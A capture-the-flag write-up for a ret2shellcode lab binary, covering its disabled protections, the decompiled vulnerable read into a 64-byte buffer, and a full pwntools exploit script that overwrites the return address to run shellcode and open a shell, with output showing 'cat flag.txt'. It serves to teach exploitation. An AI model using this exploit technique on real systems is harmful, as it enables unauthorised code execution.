

# [__Challenge3__](#)

## Description: 

* Simple ret2shellcode example. The buffer's address is leaked, NX is disabled, we can fill the buffer with our shellcode and return there to execute the payload.

## Objective: 

* ret2shellcode.

## Flag:
* `FLAG{r3t2sh3llc0d3!}`

## Challenge:

First of all, we start with a `checksec`:  

```console
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Thesis/challenge3/challenge/challenge3'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

It looks like `challenge1`.

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ❌       | Allows code execution on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

`NX` is disabled, meaning we can execute code on the stack. Also, `canary` is disabled too, meaning we can have a possible `Buffer Overflow`.

The interface of the program looks like this:



As we noticed before, there is indeed a `Buffer Overflow`, because after we entered a big amount of "A"s, the program stopped with `Segmentation fault`. This means we messed up with the addresses of the binary.

### Disassembly ⛏️

Starting from `main()`:

```c
undefined8 main(void)

{
  setup();
  vulnerable_function();
  printf("\n%s[-] You failed!\n",&DAT_00400c98);
  return 0;
}
```

There are some function calls:

* `setup()`   : Sets the appropriate buffers in order for the challenge to run.
* `banner()`  : Prints the banner.

Taking a better look at `vulnerable_function()`:

```c
void vulnerable_function(void)

{
  undefined local_48 [64];
  
  buffer_demo();
  printf("\nThe address of \'Buffer\' is: [%p]\n",local_48);
  printf("\n[*] \'NX\' is disabled, so we can execute code on the stack.");
  printf(
         "\n[*] The buffer is [%d] bytes long and \'read(0, buffer, 0x69)\' reads up to 0x69bytes.\n[*] Fill the buffer with shellcode and \'nop\' slides and overwrite the \'Returnaddress\' with the address of \'Buffer\'.\n\n> "
         ,0x40);
  read(0,local_48,0x69);
  return;
}
```

It calls `buffer_demo()` which prints the stack frame we saw at the interface. Then, it prints the address of `local_48`, which is the buffer we write to with `read(0, local_48, 0x69).

### Goal 🥅

What we know so far:
* The address of buffer we write to.
* There is a Buffer Overflow.

These two are more than enough for us to get shell on the system. Our payload should look like this:

```python
payload = shellcode + nop_slide*(len(overflow_offset) - len(shellcode)) + buf_addr
```

### Nop slides 🛷

[NOP slide](https://en.wikipedia.org/wiki/NOP_slide) is actually an instruction that does nothing, "sliding" the CPU's instruction execution flow to the final destination. It is represented with "\x90".

### Shellcode 🐚

Shellcode is actually a set of instruction. In our examples, we are going to call something like `system("/bin/sh")` or `execve("/bin/sh")`. We can find shellcodes online or create our owns. For this binary, we are going to use [pwntools shellcraft](https://docs.pwntools.com/en/stable/shellcraft.html) method: 

```python
context.arxh = "amd64"
asm(shellcraft.popad() + shellcraft.sh())
```

First we have to specify the architecture of the system and then use these two methods to `pop` all registers and create a shellcode. Then, we fill the rest of the buffer with junk and overwrite the return address with the address of the `buffer`.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge3" 

LOCAL = False

prompt = ">"

def pwn():
  # Find the overflow offset
  offset = 72
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  # Read buffer address
  r.recvuntil("'Buffer' is: [") # junk lines
  buf = int(r.recvuntil("]", drop=True), 16) # Do not save "]" and convert value to integer
  print("\n[*] Buffer address @ 0x{:x}\n".format(buf))

  # Craft payload
  # Fill the buffer with shellcode + nop slides until the offest value + the buffer address
  payload = asm(shellcraft.popad() + shellcraft.sh()).ljust(offset, b"\x90")  + p64(buf)
  r.sendlineafter(">",  payload)

  # Get shell
  r.interactive()

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72

[*] Buffer address @ 0x7fff386f1d10

 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{r3t2sh3llc0d3!}
```
